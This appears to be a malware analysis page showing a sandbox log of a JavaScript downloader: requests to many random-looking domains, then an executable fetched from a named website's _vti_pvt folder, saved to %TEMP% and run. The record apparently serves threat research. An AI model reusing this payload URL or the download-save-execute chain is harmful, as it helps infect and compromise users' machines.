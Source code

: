    28 Oct 14:25:19 - MSXML2.XMLHTTP[16].open(GET,http://cxzwqv1j1s1nsjj5qBch1s1s4s1n3dw1d1nsjj5q.nl,false)
    28 Oct 14:25:19 - MSXML2.XMLHTTP[16] statusText = {"code":"ENOTFOUND","errno":"ENOTFOUND","syscall":"getaddrinfo","hostname":"cxzwqv1j1s1nsjj5qbch1s1s4s1n3dw1d1nsjj5q.nl","host":"cxzwqv1j1s1nsjj5qbch1s1s4s1n3dw1d1nsjj5q.nl","port":80}
    28 Oct 14:25:19 - MSXML2.XMLHTTP[18].open(GET,http://ddqwe41CexN71.nl/D4Eos1CDvIneDEn3dw1ol7e.ch/fjgnt.ico,false)
    28 Oct 14:25:19 - MSXML2.XMLHTTP[18] statusText = {"code":"ENOTFOUND","errno":"ENOTFOUND","syscall":"getaddrinfo","hostname":"ddqwe41cexn71.nl","host":"ddqwe41cexn71.nl","port":80}
    28 Oct 14:25:19 - MSXML2.XMLHTTP[20].open(GET,http://vcBOBDqe5oj2dnsOOBvosOnsO.de/exj71ch4D.tg,false)
    28 Oct 14:25:20 - MSXML2.XMLHTTP[20] statusText = {"code":"ENOTFOUND","errno":"ENOTFOUND","syscall":"getaddrinfo","hostname":"vcbobdqe5oj2dnsoobvosonso.de","host":"vcbobdqe5oj2dnsoobvosonso.de","port":80}
    28 Oct 14:25:20 - MSXML2.XMLHTTP[22].open(GET,http://edc1B-1Dqe5oj2dnsO5dde2ofdvgfd1c9O1dchdend1VBbDXUNB1sO1d.ch/fjgnt.ico,false)
    28 Oct 14:25:20 - MSXML2.XMLHTTP[22] statusText = {"code":"ENOTFOUND","errno":"ENOTFOUND","syscall":"getaddrinfo","hostname":"edc1b-1dqe5oj2dnso5dde2ofdvgfd1c9o1dchdend1vbbdxunb1so1d.ch","host":"edc1b-1dqe5oj2dnso5dde2ofdvgfd1c9o1dchdend1vbbdxunb1so1d.ch","port":80}
    28 Oct 14:25:20 - MSXML2.XMLHTTP[24].open(GET,http://cdd324qieVBbDXUNB1DvDoxsO1d.ch/fjgnt.ico/exj71o.tg,false)
    28 Oct 14:25:20 - MSXML2.XMLHTTP[24] statusText = {"code":"ENOTFOUND","errno":"ENOTFOUND","syscall":"getaddrinfo","hostname":"cdd324qievbbdxunb1dvdoxso1d.ch","host":"cdd324qievbbdxunb1dvdoxso1d.ch","port":80}
    28 Oct 14:25:20 - MSXML2.XMLHTTP[26].open(GET,http://ewB5e5odhtsl1X9e5o.ch/fjgnt.ico/Vqe5oj2dnnl5o1.ch/fjgnt.ico,false)
    28 Oct 14:25:20 - MSXML2.XMLHTTP[26] statusText = {"code":"ENOTFOUND","errno":"ENOTFOUND","syscall":"getaddrinfo","hostname":"ewb5e5odhtsl1x9e5o.ch","host":"ewb5e5odhtsl1x9e5o.ch","port":80}
    28 Oct 14:25:20 - MSXML2.XMLHTTP[28].open(GET,http://wwwtBl5qeofdvgfd1cheoBDKOqj6Pt95o1sO1d.ch/fjgnt.ico,false)
    28 Oct 14:25:20 - MSXML2.XMLHTTP[28] statusText = {"code":"ENOTFOUND","errno":"ENOTFOUND","syscall":"getaddrinfo","hostname":"wwwtbl5qeofdvgfd1cheobdkoqj6pt95o1so1d.ch","host":"wwwtbl5qeofdvgfd1cheobdkoqj6pt95o1so1d.ch","port":80}
    28 Oct 14:25:20 - MSXML2.XMLHTTP[30].open(GET,http://ddDsODitIneDio4.s1e5o1sO1d/s.ch/fjgnt.ico/odj4BXe.tg,false)
    28 Oct 14:25:20 - MSXML2.XMLHTTP[30] statusText = {"code":"ENOTFOUND","errno":"ENOTFOUND","syscall":"getaddrinfo","hostname":"dddsoditinedio4.s1e5o1so1d","host":"dddsoditinedio4.s1e5o1so1d","port":80}
    28 Oct 14:25:20 - MSXML2.XMLHTTP[32].open(GET,http://www.luigirusso.it/_vti_pvt/tusosnd72ms.exe,false)
    28 Oct 14:25:20 - MSXML2.XMLHTTP[32].responseBody = (object) 'MZ??????????????????????@???????????????????????????????????????????????!??L?!This program cannot be run in DOS mode.???$?????????eZ???????????!?????,?6?'???U?V?????????????T?????)??????,?K?????Rich???????????PE??L??????W?????????????????????P??????? ... (truncated)'
    28 Oct 14:25:20 - MSXML2.XMLHTTP[32].status = (number) '200'
    28 Oct 14:25:20 - ADODB_Stream[33].SaveToFile(%TEMP%\70753547.exe, 2)
    28 Oct 14:25:20 - WScript.Shell[31].Run(%TEMP%\70753547.exe, 1, 0)

**malwr.com:** https://malwr.com/analysis/YjY5NjcwNjdkNTZiNGRiMGI1ZDg4NTI1ZDY2MGJjMzQ/

**Source code:** malware/20161028/ddf5e00b01f5841f9ef582e4a9122f549438039ee100088b244c0fa5402a0f5f.js
